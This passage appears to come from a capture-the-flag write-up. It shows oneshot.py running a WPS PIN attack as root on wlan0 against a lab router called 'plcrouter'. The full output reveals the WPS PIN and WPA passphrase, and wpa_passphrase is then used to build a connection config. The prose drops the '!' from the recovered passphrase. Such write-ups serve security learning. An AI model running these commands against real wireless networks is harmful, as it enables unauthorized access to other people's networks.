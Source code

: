 

    Example: oneshot.py -i wlan0 -b 00:90:4C:C1:AC:21 -K
    root@attica02:/root# python3 oneshot.py -i wlan0 -b 02:00:00:00:01:00 -K
    [*] Running wpa_supplicant…
    [*] Running wpa_supplicant…
    [*] Trying PIN '12345670'…
    [*] Scanning…
    [*] Authenticating…
    [+] Authenticated
    [*] Associating with AP…
    [+] Associated with 02:00:00:00:01:00 (ESSID: plcrouter)
    [*] Received Identity Request
    [*] Sending Identity Response…
    [*] Received WPS Message M1
    [P] E-Nonce: E72EAF0BBFE6360C3CCC2A538B13AFC3
    [*] Sending WPS Message M2…
    [P] PKR: 37D283C42A47D0FAEA7B4BB3A0F92F248CF812F109AA480CCEB4D3846BA28673DF65C1A94C764A8B45533A09ADF99B58EF7541ABC87F8C558382E3E990288CE575897BA4EE847A801D2E1FF23878BEFBFB3AACA29609F61A346583CC84A57A877B03E66271AE05538C2A6CACE4DF04634D6F5773661E72F8E67E5BF3BD9A3AA57178E0B9B9569FC4CA719CD1CDFAC04E923D039B1230D6993FAACAF38341CC920E0806B23995902A2F73ED9A1ACA91A83F0EBD0858D337C380E3CFFE768C4AD8
    [P] PKE: 7C87C5A1EE77C29D189CADE4F2880A7A9F13AC00065284D11D7D219D1F449D23C42214319F73666ECF449ED7161A2982DF49A937F19A2F66EBFE21F3E54AC21CA70C63E21339BDCED0F6123D6AA3B8C4AD9B6B3C794F277F32D3577D3C1906F153A1E6AB0B62DE047DAF5BF96C1E1BCE0D77931095ADEC529A0B9E911BC67DB24E80C0718215E9B6729C5CCD872BFAA175DE1C17D095E2C80D1D76ACA3C68FA0C63B446DE12C387CEA3427217E4F5B1EBF23AF091B702DBEEDBCF82CB8B5EE95
    [P] AuthKey: 3DFF292549E90FE647F937246629D0EC32196BF57E208192128D0496B5C100AB
    [*] Received WPS Message M3
    [P] E-Hash1: 198497215A04DCFF3BA53AE859304708E6C45A4B479D5E068220ADBE4E14FA8C
    [P] E-Hash2: 252262612C4E5CA4A185553AB4F20B8C847D7B88077B4C8A19C60B9ADA1814C0
    [*] Sending WPS Message M4…
    [*] Received WPS Message M5
    [+] The first half of the PIN is valid
    [*] Sending WPS Message M6…
    [*] Received WPS Message M7
    [+] WPS PIN: '12345670'
    [+] WPA PSK: 'NoWWEDoKnowWhaTisReal123!'
    [+] AP SSID: 'plcrouter'



The PSK is "NoWWEDoKnowWhaTisReal123".

#### Wifi Connect

The `wpa_passphrase` command will generate the config file necessary to
connect to the network.



    root@attica02:~# wpa_passphrase plcrouter 'NoWWEDoKnowWhaTisReal123!'
    network={
            ssid="plcrouter"
            #psk="NoWWEDoKnowWhaTisReal123!"
            psk=2bafe4e17630ef1834eaa9fa5c4d81fa5ef093c4db5aac5c03f1643fef02d156
    }
    root@attica02:~# wpa_passphrase plcrouter 'NoWWEDoKnowWhaTisReal123!' > config
